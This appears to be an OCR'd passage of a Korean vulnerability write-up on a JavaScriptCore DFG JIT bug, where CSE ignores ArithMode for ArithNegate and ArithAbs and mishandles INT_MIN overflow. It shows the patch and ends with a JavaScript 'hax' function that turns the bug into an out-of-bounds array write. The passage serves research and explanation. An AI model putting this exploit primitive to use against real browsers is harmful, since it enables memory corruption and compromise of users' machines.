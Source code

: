 
따라서 CSE에 의해 두 번째로 호출되는 GetByOffset이 제거될려면, NamedPropertires 추상 힙에 대한 쓰기 연산이 없어야 합니다.

## The Bug

DFGClobberize에선 ArithNegate 연산 수행시 ArithMode를 고려하지 않았습니다.
```cpp
case ArithNegate:
    if (node->child1().useKind() == Int32Use || ...)
        def(PureValue(node));
```

위의 코드로 인해 **오버플로우가 체크된 ArithNegate 연산**이 **오버플로우가 체크되지 않은 ArithNegate 연산**으로 대체되는 문제가 발생할 수 있었습니다.


특히 ArithNegate에서 **정수 오버플로우가 발생할 수 있는 유일한 경우**는 INT_MIN을 부호 반전할 경우입니다.
- INT_MIN = -2147483648
- -INT_MIN = 2147483648 -> 32비트에선 표현 불가능 -> 오버플로우 발생
- -INT_MIN은 INT_MIN으로 다시 변환됨


정리하면, ArithNegate는 INT_MIN을 입력값으로 받는 경우 오버플로우 문제를 발생시킬 수 있다는 의미입니다.


위의 코드를 다시 살펴펴보면 ArithMode 없이 node를 PureValue로 처리했기 때문에 CSE가 ArithMode가 다른 ArithNegate 연산을 잘못 대처하는 문제가 발생할 수 있었습니다.


위의 코드에 대한 패치는 매우 간단합니다.
```diff
- def(PureValue(node));
- def(PureValue(node, node->arithMode()));
```

위와 같이 수정을 하면 CSE는 ArithNegate의 ArithMode를 확인하게 됩니다. 이를 통해 서로 다른 모드를 가진 두 ArithNegate 연산이 서로 대체되지 않도록 해줍니다.


DFGClobberize는 ArithNegate 뿐만 아니라 ArithAbs 연산에서도 ArithMode를 확인하지 않았습니다.


그리고 이러한 버그들은 퍼징으로 감지하기 매우 어렵습니다. 그 이유는 다음과 같습니다.
1. 퍼저가 동일한 입력값을 사용하는 두 개의 ArithNegate 연산을 생성해야 하지만, 각 연산이 서로 다른 ArithMode를 가져야 한다.
2. 퍼저는 ArithMode의 차이가 실제로 영향을 미치는 경우를 트리거 해야한다. 이 경우 INT_MIN 값을 부호 반전하는 상황을 만들어야 한다.
3. 퍼저가 이 조건을 **메모리 안전성 문제(memory safety violation) 또는 어썰션 실패(assertion failure)**로 이어지도록 만들어야 한다.


특히 단계를 퍼저만을 통해 이 조건을 우연히 충족하는 것은 매우 어렵습니다.


## Achieving Out-Of-Bounds

아래의 JS 코드는 위의 버그를 이용하여 임의의 인덱스를 통해 JSArray에 대한 **Out-Of-Bounds(OOB)**를 수행하는 코드입니다.
```js
function hax(arr, n) {
    n |= 0;
    if (n < 0) {
        let v = (-n) | 0;
        let i = Math.abs(n);
        if (i < arr.length) {
            if (i & 0x80000000) {
                i += -0x7ffffff9;
            }
            if (i > 0) {
                arr[i] = 1.04380972981885e-310;
            }
        }
    }
}
```
